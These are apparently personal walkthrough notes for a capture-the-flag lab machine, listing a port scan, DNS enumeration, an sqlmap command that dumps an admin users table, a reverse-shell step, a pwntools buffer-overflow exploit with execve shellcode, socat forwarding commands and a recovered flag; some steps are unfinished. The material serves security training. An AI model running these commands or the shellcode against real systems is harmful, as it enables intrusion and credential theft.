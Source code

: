 1) PortScan
```bash
rustscan -a 10.13.37.10 --ulimit 5000 -- -sV -sC -Pn
```
![[Pasted image 20230913115945.png]]
2) Digging the domain
```bash
dnsrecon -r 10.13.37.10/24 -n 10.13.37.10
```
![[Pasted image 20230913120254.png]]
3) Analyze the web traffic to find the hidden folder
![[Pasted image 20230913120456.png]]
4) Use sqlmap to retrieve the admin hash
```bash
sqlmap -u 'http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php' --batch --forms --level 3 --risk 3 -D jetadmin -T users --dump
```
![[Pasted image 20230913120601.png]]
5) Crack the hash on crack station and login
![[Pasted image 20230913120633.png]]
6) Analyze the email.php traffic and change the request to open a reverse shell
![[Pasted image 20230913121242.png]]
![[Pasted image 20230913121421.png]]
7) Get a reverse shell and look on /home/leak. Download it locally and exploit
```python3
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```
8) Expose the binary using socat and launch the exploit
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &amp;
```
![[Pasted image 20230913143408.png]]
9) Xor non fatto
```
Hello mate!  
First of all an important finding regarding our website: Login is prone to SQL injection! Ask the developers to fix it asap!  
Regarding your training material, I added the two binaries for the remote exploitation training in exploitme.zip. The password is the same we use to encrypt our communications.  
Make sure those binaries are kept safe!  
To make your life easier I have already spawned instances of the vulnerable binaries listening on our server.  
The ports are 5555 and 7777.  
Have fun and keep it safe!  
JET{r3p3at1ng_ch4rs_1n_s1mpl3_x0r_g3ts_y0u_0wn3d}  
Cheers - Alex
```
10) 
socat TCP6-LISTEN:9200,bind=::ffff:127.0.0.1 TCP4:10.13.37.10:9900

